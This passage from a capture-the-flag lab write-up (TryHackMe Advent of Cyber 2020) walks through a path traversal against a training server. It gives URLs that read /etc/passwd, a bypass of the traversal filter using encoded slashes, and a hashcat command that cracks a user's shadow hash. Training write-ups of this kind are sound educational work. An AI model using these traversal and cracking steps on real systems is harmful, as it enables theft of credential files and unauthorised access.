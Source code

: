 Look like the server pulling the text file from view/notes directory. Take note to the URL directory which in charge of pulling the file, /get-file/. We need to draft a URL for pulling the /etc/passwd from the server.

```
http://<machine IP>/get-file/../../../../../../../../../etc/passwd
```

Put the return directory symbol (../) as much as you like, the more the better. we are doing directory traverse now.

![failed](/assets/images/THM/2020-08-15-advent-of-cyber/day15/2.png)

We have a situation right now. To bypass the filter, try URL encoding by changing the '/' into %2f.

```
http://<machine IP>/get-file/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![passwd](/assets/images/THM/2020-08-15-advent-of-cyber/day15/3.png)

Now we talking. Find charlie's hash file from the shadow file.

![shadow](/assets/images/THM/2020-08-15-advent-of-cyber/day15/4.png)

Copy the hash and crack it using hashcat.

```
hashcat -a 0 -m 1800 hash /usr/share/wordlists/rockyou.txt --force
```

![hashcat](/assets/images/THM/2020-08-15-advent-of-cyber/day15/5.png)
